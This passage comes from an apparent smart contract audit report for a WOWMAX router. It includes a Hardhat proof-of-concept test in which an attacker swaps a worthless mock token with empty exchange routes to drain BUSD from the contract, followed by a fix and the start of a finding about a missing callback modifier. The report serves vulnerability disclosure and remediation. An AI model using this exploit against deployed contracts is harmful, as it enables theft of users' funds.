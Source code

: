 ### Working Test Case

```ts
it.only("Should be an exchange for tokens in the contract ", async () => {
  MALW = await new MockERC20__factory(attacker).deploy("Malware token", "MALW", 18, ethers.utils.parseEther("1000000"));

  const busdAmount = ethers.utils.parseEther("1000");

  await BUSD.transfer(wowmaxNew.address, busdAmount);

  const request = {
    from: MALW.address,
    amountIn: busdAmount,
    to: [BUSD.address],
    exchangeRoutes: [],
    slippage: [0],
    amountOutExpected: [busdAmount],
  };
  await MALW.connect(attacker).approve(wowmaxNew.address, busdAmount);
  await wowmaxNew.connect(attacker).swap(request, { gasLimit: 3e7 });

  await expect(await BUSD.balanceOf(attacker.address)).to.eq(busdAmount);
});
```

```bash
WOWMAX Router Specification
    Swap
      ✔ Should be an exchange for tokens in the contract  (314ms)


  1 passing (4s)
```

### Recommendation:

If it is not planned to be possible to exchange tokens for tokens in the contract, a check on the length should be added
`exchangeRoutes`

```solidity
require(exchangeRoutes.length != 0);
```

# [Med-01] Missing modifier

### Description:

`swapCallback()` functions use the modifier `onlyDuringSwap`, but the `d3MMSwapCallBack()` function does not have this
modifier. This can be exploited by an attacker
